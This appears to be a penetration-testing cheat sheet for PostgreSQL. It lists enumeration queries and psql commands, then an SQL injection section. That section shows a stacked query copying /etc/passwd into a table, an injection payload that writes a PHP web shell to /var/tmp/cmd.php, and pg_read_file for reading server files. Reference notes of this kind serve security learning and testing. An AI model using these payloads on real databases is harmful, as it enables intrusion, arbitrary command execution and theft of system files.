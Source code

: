 # PostgreSQL (5432)

## Usage

PostgreSQL stores metadata in tables beggining with `pg_`.

{% tabs %}
{% tab title="Version" %}
```sql
SELECT version();
```
{% endtab %}

{% tab title="Current User" %}
```sql
SELECT current_user;
```
{% endtab %}

{% tab title="Databases" %}
```sql
SELECT datname FROM pg_database;
```
{% endtab %}

{% tab title="Tables" %}
{% code overflow="wrap" %}
```sql
// Query only user-created tables (excluding `pg_` tables)
SELECT table_name FROM <database>.information_schema.tables WHERE table_schema='public';
```
{% endcode %}
{% endtab %}

{% tab title="Columns" %}
{% code overflow="wrap" %}
```sql
SELECT column_name, data_type FROM <database>.information_schema.columns WHERE table_name='<table>'
```
{% endcode %}
{% endtab %}
{% endtabs %}

We can connect via CLI with `psql`.

{% tabs %}
{% tab title="Connect" %}
```bash
psql -h 127.0.0.1 -U postgres
```
{% endtab %}
{% endtabs %}

```bash
# Listing dbs
postgres=# \l
# Connecting to a db
postgres=# \c cozyhosting
# Listing tables
cozyhosting=# \dt
# Dumping data
cozyhosting=# select * from users;
```

### SQLi

### Read/Write

* `COPY FROM` -> insert data **into a table from a file** (the PostgreSQL process must have `read` access to the file and the user making the query permissions to create a new table).

```sql
// example using stacked queries
create table tmp(data text); // create the table tmp with one column named data
copy tmp from '/etc/passwd'; // copy the file contents into the tmp table
select * from tmp; // select all data from the tmp table
```

* `COPY TO` -> copy data **to a file from a table** (the PostgreSQL process must have `write` permissions to the directory where the file will be created).

```sql
1';copy(select '<?php passthru($_GET["cmd"]);?>') to '/var/tmp/cmd.php';-- -
```

* `pg_read_file()` -> instead of inserting the results into a table, it just returns a single field containing all the data (useful if the PostgreSQL process has `read` access on the file, but the user querying don't have permissions to create a new table).

```sql
SELECT pg_read_file('/var/tmp/proof.txt');
```
